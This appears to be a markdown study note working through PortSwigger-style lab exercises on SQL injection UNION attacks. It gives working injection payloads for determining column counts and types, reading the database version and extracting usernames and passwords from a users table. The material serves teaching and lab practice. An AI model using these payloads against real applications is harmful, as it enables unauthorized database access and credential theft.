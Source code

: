 Table of contents
---
[toc]
# SQL injection UNION attacks

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

```
SELECT product_name, price FROM products 
UNION SELECT username, age
```

The query above met the requirements:

| string | integer |
| -------| ------- |
| product_name | price | 
| username | age |


This one didn't meet the requirements:

```
SELECT product_name, price FROM products 
UNION SELECT id, username, password
```
## Determining the number of columns required in an SQL injection UNION attack
Method 1:
```
' ORDER BY 1, --
' ORDER BY 1,2 --
... 
' ORDER BY 1,2,3,N -- 
```

Method 2:  

```
' UNION SELECT NULL
' UNION SELECT NULL, NULL
...
' UNION SELECT NULL, NULL, NULL, NULL, NULL
```

Indicator to detect: error message.

# Labs
## Lab #1: SQL injection UNION attack, determining the number of columns returned by the query


Steps: 

1. Determine the number of columns by index.
```
category=Lifestyle' ORDER BY 1,2 --
category=Lifestyle' ORDER BY 1,2, --
category=Lifestyle' ORDER BY 1,2,3 --
category=Lifestyle' ORDER BY 1,2,3,4 -- # error
```
2. Fill with null.
```
category=Lifestyle' UNION SELECT NULL,NULL,NULL --
```

## Lab #2: SQL injection UNION attack, finding a column containing text

Steps:

1. Determine the number of columns 
```
category=Pets' ORDER BY 1,2,3 --
```

2. Determine column data type 
```
category=Pets' UNION SELECT 'inject',null,null --
category=Pets' UNION SELECT null,'inject',null --
category=Pets' UNION SELECT null,'inject','inject' --
```

## Lab #3: SQL injection UNION attack, retrieving data from other tables 

Suppose that:
- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called `users` with the columns `username` and `password`.

Steps:
1. Determine the number of column 
```
category=Lifestyles' ORDER BY 1,2 --
```

2. Determine the data type in each column 
```
category=Lifestyles' UNION SELECT 'a', NULL --
category=Lifestyles' UNION SELECT 'a', 'NULL' --
```

3. Retrieve data from the table users.
```
category=Lifestyles' UNION select username, password FROM users --
```
4. Login

## Lab #4: SQL injection UNION attack, retrieving multiple values in a single column

> Note: Different databases use different syntax
> Cheatsheet to examine the database version and which syntax to use
> https://portswigger.net/web-security/sql-injection/cheat-sheet


Lab steps:
1. Determine the number of column 
```
category=Gifts' ORDER BY 1, 2 --
```

2. Determine the data type in each column 
```
category=Gifts' UNION SELECT NULL, 'a' --
```

3. Examining the database version.
```
category=Gifts' UNION SELECT NULL, version() --
```

4. Retrieve multiple values from single column
```
category=Gifts' UNION SELECT NULL, username || ':' || password FROM users --
```

5. Login